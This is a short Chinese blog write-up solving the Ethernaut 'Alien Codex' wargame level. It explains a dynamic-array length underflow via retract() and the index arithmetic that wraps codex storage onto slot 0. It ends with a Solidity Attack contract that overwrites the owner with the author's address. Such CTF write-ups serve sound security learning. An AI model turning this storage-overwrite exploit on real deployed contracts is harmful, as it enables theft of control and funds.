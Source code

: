 ```yaml
---
title: Ethernaut - Alien Codex
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-24
---
```


和外星人交流，获得owner权。

<!--more-->

思路就是先找哪里有可以攻击的地方。这个函数，可以修改一个数组中的值，我只要让codex[i]对应的内存空间位置变成 owner 的位置即可。

```solidity
function revise(uint256 i, bytes32 _content) public contacted {
    codex[i] = _content;
}
```

动态数组，slot里存数组长度，keccak256(slot) + i 的值就是第i个元素的槽位。

计算出 `keccak256(slot) + i` 在什么时候 = 0。



slot[0] 里存两个值 contracted 和 owner

```
0x000000000000000000000001_0bc04aa6aac163a6b3667636d798fa053d43bd11
```

只要把slot改成我的地址即可：

```
0x000000000000000000000000_E484608fA7639996d0F359f76f34DF9fe15f7F7B
```



还有设置数组会检测数组长度，所以先让他下溢，把数组长度开满。



```js
await contract.retract() // 下溢让数组长度爆了
```

```solidity
contract Attack {
    address public target;
    uint256 public log;
    constructor(address _target) {
        target = _target;
    }

    function attack() public {
        AlienCodex codex = AlienCodex(target);
        uint256 i = (~uint256(0)) - uint256(keccak256(abi.encode(1))) + 1;
        codex.revise(i, 0x000000000000000000000000E484608fA7639996d0F359f76f34DF9fe15f7F7B);
    } 
}
```

